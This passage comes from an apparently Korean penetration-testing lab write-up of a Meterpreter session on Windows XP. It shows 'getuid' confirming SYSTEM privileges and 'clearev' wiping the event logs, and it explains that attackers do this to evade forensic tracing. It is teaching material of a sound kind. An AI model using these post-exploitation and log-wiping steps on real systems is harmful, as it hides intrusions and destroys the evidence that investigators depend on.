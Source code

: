 ## 사용자 권한 확인하기 
getuid 로 현재 획득한 셸의 사용자 권한을 확인할 수 있다. 시스템 권한을 획득한 것을 확인할 수 있다. 사실상 거의 모든 것을 할 수 있다는 것을 의미한다. 

```sh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

## 이벤트 로그 삭제하기 
- Windows 시스템에서 이벤트 로그는 침해 사고 조사등에서 공격 흔적을 찾는데 유용하게 쓰인다. 
- 따라서 공격자 입장에서는 이벤트 로그를 삭제해두면 추적을 피할 수 있다. 
- `clearev` 커맨드로 이벤트 로그를 삭제할 수 있다. 
- 실행해본다. 다음과 같이 이벤트 로그가 삭제되었다고 출력된다. 

```sh
meterpreter > clearev
[*] Wiping 93 records from Application...
[*] Wiping 57 records from System...
[*] Wiping 0 records from Security...
meterpreter > 

```

![이벤트 로그 삭제](/images/ms08-067-meterpreter-clearev.png)

이벤트 로그 삭제전은 다음과 같다. 

(참고로 Windows XP에서 실행창에서 eventvwr.msc 를 입력하면 볼 수 있다.)
